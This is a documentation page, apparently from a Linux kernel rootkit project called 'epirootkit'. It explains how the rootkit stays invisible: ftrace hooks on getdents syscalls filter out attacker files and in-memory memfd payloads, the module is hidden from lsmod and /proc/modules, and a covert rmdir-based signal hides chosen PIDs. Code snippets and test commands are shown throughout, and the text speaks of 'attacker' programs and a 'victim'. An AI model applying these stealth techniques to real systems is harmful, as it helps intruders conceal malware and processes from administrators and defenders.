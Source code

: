 ```yaml
---
title: "Hiding (Cardboard Box)"
description: "How the rootkit hides files, directories, memfd fds, modules and PIDs"
icon: "code"
date: "2025-05-07T00:44:31+01:00"
lastmod: "2025-05-07T00:44:31+01:00"
draft: false
toc: true
weight: 6
---
```


## Overview

Our rootkit must be invisible to standard user-land tools. We achieve this by hooking key syscalls and filtering out any trace of:

- attacker files/directories with the prefix `jules_est_bo_`
- in-memory file descriptors (`memfd:*`)
- the kernel module itself
- hidden kernel threads / PIDs

All hooks are installed via the ftrace framework and removed cleanly at unload.

---

## 1. File & Directory Hiding

### 1.1 Purpose

Prevent any process from seeing files or directories created by the rootkit (e.g. under `/usr/share/zov_f/` or with prefix `jules_est_bo_`).

### 1.2 Implementation

1. Resolve the original syscalls:
   ```c
   orig_getdents = (void *)kallsyms_lookup_name("sys_getdents");
   orig_getdents64 = (void *)kallsyms_lookup_name("sys_getdents64");
   ```
2. Register ftrace hooks in `init_hide_hooks()`:
   ```c
   ftrace_set_filter_ip(&fops_getdents,
       (unsigned long)orig_getdents, 0, 0);
   register_ftrace_function(&fops_getdents);
   /* …and similarly for getdents64… */
   ```
3. In the hook handler (`getdents_hook` / `getdents64_hook`):
   - Call the original syscall to fill the `dirent` buffer.
   - Iterate entries: if `d_name` starts with any prefix in `hide_prefixes[]`, remove that entry via `memmove()`.
   - Return the adjusted buffer length.

### 1.3 Configuration

Module parameter:
```c
static char hide_prefixes[256] = "jules_est_bo_,memfd:";
module_param_string(hide_prefix, hide_prefixes, 256, 0444);
MODULE_PARM_DESC(hide_prefix,
  "Comma-separated prefixes to hide "
  "(default: \"jules_est_bo_,memfd:\")");
```

### 1.4 Code Location

- `rootkit/hide.c`
  - `init_hide_hooks()` / `cleanup_hide_hooks()`
  - `getdents_hook()` / `getdents64_hook()`
  - `filter_dirents()` utility

### 1.5 Testing

```bash
# Load module with custom prefixes
insmod epirootkit.ko hide_prefix="jules_est_bo_,memfd:"

# Create a hidden file
mkdir /tmp/test && touch /tmp/test/jules_est_bo_secret

# Should only list normal files, not "jules_est_bo_secret"
ls /tmp/test

# Direct access still works
cat /tmp/test/jules_est_bo_secret
```

---

## 2. memfd FD Hiding

### 2.1 Purpose

Hide the anonymous in-memory binaries (`/memfd:wpn`, `/memfd:tgt`) from `/proc/<pid>/fd`.

### 2.2 Implementation

- Reuse the same `getdents()` / `getdents64()` hooks.
- Ensure `"memfd:"` is included in `hide_prefixes[]` so any FD whose target begins with `memfd:` is filtered out.

### 2.3 Testing

```bash
# After loading dropper, check FDs of the dropper process
ls -l /proc/$(pidof cron)/fd

# Entries pointing to "/memfd:…" should not appear
```

---

## 3. Kernel Module Hiding

### 3.1 Purpose

Prevent `lsmod` or `cat /proc/modules` from revealing our "epirootkit" module.

### 3.2 Implementation

1. Hook the `iterate`/`readdir` methods on the `/proc/modules` and `/sys/modules` filesystems.
2. In the hook, filter out any `dirent` whose `d_name` matches our module name.

### 3.3 Testing

```bash
lsmod | grep epirootkit      # should produce no output
cat /proc/modules | grep epirootkit  # should produce no output
```

---

## 4. PID Hiding

### 4.1 Purpose

Hide specific kernel threads or userland processes from `/proc`.

### 4.2 Control Interface

Use the `rmdir()` syscall with the name `"daniel.k.<pid>"` to hide a PID:

```c
syscall(SYS_rmdir, "daniel.k.12345");
```

### 4.3 Implementation

1. Maintain an in-kernel list of hidden PIDs.
2. In the `/proc` `getdents()` hook, skip any directory entry whose name matches an entry in `hidden_pid_list`.

### 4.4 Testing

```c
// In attacking program:
syscall(SYS_rmdir, "daniel.k.12345");

// Then on the victim:
ls /proc        # PID 12345 should not appear
```

---

### Cleanup

On module unload, all ftrace hooks are unregistered:

```c
unregister_ftrace_function(&fops_getdents);
unregister_ftrace_function(&fops_getdents64);
/* ...other hooks... */
```

All internal lists and data structures are freed, restoring original kernel behavior.
